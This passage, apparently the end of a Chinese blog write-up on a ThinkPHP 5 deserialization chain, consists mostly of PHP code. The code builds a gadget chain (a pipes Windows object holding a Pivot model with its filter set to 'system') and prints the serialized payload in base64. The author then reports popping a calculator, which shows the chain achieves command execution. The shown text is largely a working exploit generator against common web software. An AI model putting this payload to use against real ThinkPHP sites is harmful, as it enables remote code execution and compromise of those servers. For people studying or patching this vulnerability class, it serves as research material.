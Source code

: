 ```php
        $this->filter = 'system';
    }

}
namespace think\process\pipes;
use think\model\Pivot;
class Windows
{
    private $files = [];
    function __construct()
    {
        $this->files = [new Pivot()];
    }
}
namespace think\model;
use think\Model;
class Pivot extends Model{
}

use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
```

你最终弹出来了自己的计算器：

![image-20220421191617228](TP5反序列化利用链.assets/image-20220421191617228.png)

## CUT！

以后不用直接要exp了，换成要链子了hhhhhhh
